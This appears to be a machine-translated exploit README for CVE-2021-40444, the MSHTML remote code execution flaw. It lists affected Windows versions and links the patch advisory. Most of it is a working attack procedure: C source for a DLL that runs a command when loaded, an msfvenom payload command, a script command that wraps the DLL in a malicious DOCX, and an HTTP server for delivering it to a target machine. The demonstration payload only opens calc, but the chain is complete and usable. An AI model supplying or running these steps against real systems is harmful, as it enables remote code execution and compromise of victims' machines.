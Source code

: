 ### CVE-2021-40444

#### Describe

Microsoft MSHTML Remote Code Execution Vulnerability

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows 10          | x86/x64          |         |        |          |
| Windows 10          | x86/x64          | 1607    |        |          |
| Windows 10          | x86/x64/AMD64    | 1809    |        |          |
| Windows 10          | x86/x64/AMD64    | 1909    |        |          |
| Windows 10          | x86/x64/AMD64    | 2004    |        | &#10004; |
| Windows 10          | x86/x64/AMD64    | 20H2    |        |          |
| Windows 10          | x86/x64/AMD64    | 21H1    |        |          |
| Windows 7           | x86/x64          |         | SP1    |          |
| Windows 8.1         | x86/x64          |         |        |          |
| Windows Rt 8.1      |                  |         |        |          |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        |          |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |



#### Patch

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-40444
```

#### UtilizationPrinciple

Based on the previous use of samples`938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52`

You can know that it is to load ActiveX using the default browser (IE)

![image-20210911112944428](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_1.png)

Essentially maliciously uses only the `Document.xml.Rels` files in the sample, MHTML and X-USC, which can be used as the malicious target web page, you can achieve the utilization

#### Utilization

First, you need to generate a malicious DLL file, and compile themselves through MSF or yourself.

- Compile

  ```c
  //calc.c
  #include <windows.h>
  
  void exec(void) {
  	system("cmd /c calc");
  	return;
  }
  
  BOOL WINAPI DllMain(
      HINSTANCE hinstDLL,
      DWORD fdwReason, 
      LPVOID lpReserved )
  {
      switch( fdwReason ) 
      { 
          case DLL_PROCESS_ATTACH:
             exec(); 
             break;
  
          case DLL_THREAD_ATTACH:
              break;
  
          case DLL_THREAD_DETACH:
              break;
  
          case DLL_PROCESS_DETACH:
              break;
      }
      return TRUE;
  }
  ```

  Then run the command

  ```
  i686-w64-mingw32-gcc -shared calc.c -o calc.dll
  ```

- Compiled by MSF

  ```
  msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -f dll>>calc.dll
  ```

> It is best to use MSF to generate a DLL file!
>
> Also, please see the corresponding machine, some Windows 10 version does not exist.

The relying on the installation environment is required to generate a cab

Then use a one-touch script,`test/calc.dll`This is the absolute path you generated by you,`http://you_ip`You start the IP of the EXP this machine

```
cd CVE-2021-40444 ; python3 exploit.py generate test/calc.dll http://you_ip
```

![image-20210911115757383](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_2.png)

Then start the HTTP service

```
cd srv ; python3 -m http.server 80
```

The resulting malicious DOCX file (in the `out/` folder) is placed on the target machine (Windows 10 2004 x64), can perform success

![1](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_3.gif)

#### ProjectSource

- [prcabral](https://github.com/prcabral/CVE-2021-40444)